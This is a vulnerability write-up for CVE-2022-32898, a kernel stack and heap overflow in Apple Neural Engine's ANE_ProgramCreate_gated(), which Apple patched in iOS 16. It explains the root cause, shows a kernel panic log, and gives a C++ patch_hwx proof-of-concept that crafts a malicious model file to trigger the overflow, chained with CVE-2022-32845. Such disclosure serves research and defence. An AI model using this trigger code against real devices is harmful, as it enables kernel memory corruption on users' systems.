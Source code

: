 ```yaml
---
layout: post
title:  "CVE-2022-32898: ANE_ProgramCreate() multiple kernel memory corruption"
categories: iOS
permalink: "/CVE-2022-32898/"
list_title: ' '
author: Mohamed GHANNAM (@_simo36)
---
```


## Intro:
While reverse-engineering the process of which the Apple Neural Engine loads a model in the kernel level, I identified two interesting memory corruption vulnerabilities in the code responsible for processing the neural network features in `H11ANEIn::ANE_ProgramCreate_gated()`. These kind of vulnerabilities, in my opinion, are easy to find when manually auditing the kernel driver, but nearly impossible to catch with fuzzers unless you build something incredibly sophisticated.

## Analysis:
---

The `ZinComputeProgramGetNamesFromMultiPlaneLinear()` and `ZinComputeProgramGetNamesFromMultiPlaneTiledCompressed()` functions are both responsible for parsing the procedure input and output, or more precisely, the `LC_THREAD` command with thread flavor 2 (`ane_bind_state`) whose `binding_type_info` value is 4 and 5.

From what I can tell, `binding_type_info = 4` means that a procedure's input has more than one plane, and `binding_type_info = 5` means that the input not only has more than one plane but is also compressed.


The `ZinComputeProgramGetNamesFromMultiPlaneLinear()` function for example takes 5 arguments: a load command pointer, a thread binding pointer, and three extra output arguments. The last output argument `planes` is an array that will hold planes, or kernel pointers, whose contents are controlled by the user, and the last argument `planeCount` will indicate how many planes (or kernel pointers) were copied into `planes` from the `model.hwx` file. The following is the function definition:

![Untitled](/img/CVE-2022-32898/image1.png)

Due to the lack of validation of how many planes a model can supply, kernel pointers could be written outside the bounds of the `planes` array, potentially leading to a many interesting memory corruption scenarios.

### Turning the memory corruption to stack overflow:
The `planes` array is a stack variable located in `H11ANEIn::ANE_ProgramCreate_gated()`, and by overflowing this variable (which is supposed to hold multiple planes up to 4 elements) with more than 4 planes, other stack variables could be corrupted as well, which could lead to other issues such as type-confusion since the overwriting kernel pointers are completely under user control. 

Obviously, overflowing the `planes` array with too much entries would likely overwrite the stack cookie as well as the saved old stack frame pointer, resulting in a kernel panic. Fortunately, the total number of planes is entirely within the control of the given model, thus we could corrupt several stack variables without affecting those sensitive areas of the stack.


### Turning the memory corruption to heap overflow:
Another interesting scenario, and as illustrated in the image below, it is possible to overflow two heap objects: `H11ANEProgramBindingInfo` (at line 528) and `H11ANEProgramCreateArgsStructOutput` (at line 533).

![Untitled](/img/CVE-2022-32898/image2.png)

``` c
struct H11ANEProgramBindingInfo
{
        struct {
                uint32_t field_0;
                char names[8][512];
                uint32_t field_1004;
                char *procedure_name;
        } inputs[255], outputs[255];

};
```


The structure definition of `H11ANEProgramCreateArgsStructOutput` is shown above, and  corrupting it could result in the following crashes:
 
```
"panicString" : "panic(cpu 4 caller 0xfffffe00112e6184): Kernel data abort. at pc 0xfffffe0010a8a48c, lr 0x03effe0011b1b47c (saved state: 0xfffffe6089dca980)
  x0:  0x1122334411223344 x1:  0xfffffe3000ecff20  x2:  0x0000000000000040  x3:  0x0000000000000000
  x4:  0x0000000000000000 x5:  0x0000000000000000  x6:  0x00000000000000e8  x7:  0x0000000000000830
  x8:  0xfffffe608949c000 x9:  0xfffffe24cec0d1b0  x10: 0xfffffe24cd7d4010  x11: 0xfffffe1667fa93e0
  x12: 0x0000000000000001 x13: 0x0000000000000858  x14: 0xfffffe3000ed0760  x15: 0x00292a20736d6172
  x16: 0x5bd9fe0010a8a470 x17: 0xfffffe0013ad55d8  x18: 0x0000000000000000  x19: 0x0000000000000000
  x20: 0x0000000000000001 x21: 0xfffffe1b33ee3860  x22: 0xfffffe299a621a00  x23: 0xfffffe2999c72208
  x24: 0xfffffe3000ec0000 x25: 0x00000000e00002d1  x26: 0xfffffe608949c000  x27: 0xfffffe60895a2054
  x28: 0xfffffe6089dcb850 fp:  0xfffffe6089dcacd0  lr:  0x03effe0011b1b47c  sp:  0xfffffe6089dcacd0
  pc:  0xfffffe0010a8a48c cpsr: 0x00401208         esr: 0x96000004          far: 0x1122334411223344
  
```


# Trigger the vulnerability:

What makes these vulnerabilities interesting is that it doesn't require you to interact directly with the kernel, in other words, no need to open a UserClient connection, you simply need to compile (or craft) a malicious model and let `aned` load it on your behalf.

As you may know, to load any model via `aned`, the model must be compiled by the `ANECompilerService` system service or signed by Apple. in other words, the app must provide a `.mlmodelc` directory to `aned` which will then request `ANECompilerService` to compile it to `model.hwx` using two frameworks called `Espresso` and `ANECompiler`. 
If you don't know what I'm talking about, you're welcome to take a look at #POC2022 slides [here](https://github.com/0x36/weightBufs/blob/main/attacking_ane_poc2022.pdf) where I gave a basic overview of how `aned` works. In addition, you can get more details about the compilation process in [Wish Wu](https://twitter.com/wish_wu)'s excellent [BlackHat talk](https://www.youtube.com/watch?v=1wvBDUnPNEo&ab_channel=BlackHat) regarding his research on ANE as well as [his great tool](https://github.com/antgroup-arclab/ANETools) that exactly mimics what `ANECompilerService` does.


In our case here, we need a `model.hwx` with a procedure whose input (or output) supports multiple planes. Unfortunately, no such model is available in the `mlmodel`, `mlmodelc` or `mlpackage` format, and only few models in `hwx` format are provided by Apple. Inspecting these `hwx` models revealed that they are using some weird/undocumented neural network operations that don't exist in the open source `coremltools` library code base, hinting that these network layers are likely for internal usage only. However, the implementation of these operations is defined by the `Espresso` framework, and some reversing is required to understand  what inputs and outputs they support and how to properly use them as a layer within a neural network. Since the framework is written in C++ with STL, I had no interest in reversing this operation because it'd take forver.

This was main reason that led me to discover `CVE-2022-32845` which not only allowed me to avoid reversing this scary framework, but also saved me hunders of hours of studying advanced Machine Learning topics.

So I took a simple `model.hwx` and patched one of its *LC_THREAD* commands to replicate the desired outcome in `ane_bind_state`, and then exploited `CVE-2022-32845` to trick `aned` into loading it as if it was signed by Apple; and that was enough to demostrate the vulnerability to Apple.

The function which patches the model is shown below, and you can borrow some codes from my [weightBufs kernel exploit](https://github.com/0x36/weightBufs/) if you want to trigger the vulnerability yourself.

``` c++
void patch_hwx(const mach_header_64 *mh,size_t mh_size)
{
        if((mh->magic != 0xfeedface) && (mh->magic != 0xbeefface)) {
                dbg("[-] Bad Mach-O file \n");
                return ;
        }

        struct load_command *lc = NULL;

        FOR_EACH_COMMAND {

                if (lc->cmd != LC_THREAD)
                        continue;

                dbg("LC_THREAD command found \n");

                compute_thread_command *thread = (compute_thread_command *)lc;
                u32 name_off = 0;
                switch (thread->flavor) {
                case THREAD_BINDING: {
                        name_off = *(uint32_t*)((char*)thread + 0x18);
                        dbg("Binding Name \n");
                        compute_thread_binding * bd =
                                (compute_thread_binding *)&thread->thread_states;

                        bd->binding_typeinfo = 4;
                        bd->field4 = 1;

                        u32 plane_count = 0x30;
                        char *buf_start = (char*)lc + 0x20;
                        *(u32 *) buf_start = 0;
                        *(u32 *) (buf_start + 0x10) = plane_count;
                        char *_ptr = buf_start + 0x6C;
                        int i = 0;
                        uint64_t off = 0;

                        do {
                                if(off == 0)
                                        off = (unsigned int)(_ptr + 4 - (char*)mh) + 8 ;
                                *(unsigned int *)_ptr = mh_size;

                                u64 *pp = (u64 *)&_ptr[4];
                                for(int k = 0; k < 4;k++)
                                        pp[k] = 0x1122334411223344;
                                _ptr += 0x68;

                        }while (i++ < plane_count);

                        patched = true;

                        return;
                }
                case THREAD_PROCEDURE_OPERATION:
                case THREAD_PROCEDURE:
                default:
                        break;
                }

                dbg("\t ProcedureName '%s' \n",(char*)thread + name_off);

        }

}
```


## The patch: 
---
Apple addressed the issue in iOS 16 by introducing some validation checks in both vulnerable functions, limiting the supplied plane count to four entries, as shown below:
![Untitled](/img/CVE-2022-32898/image3.png)

That's all for now, see you again soon!




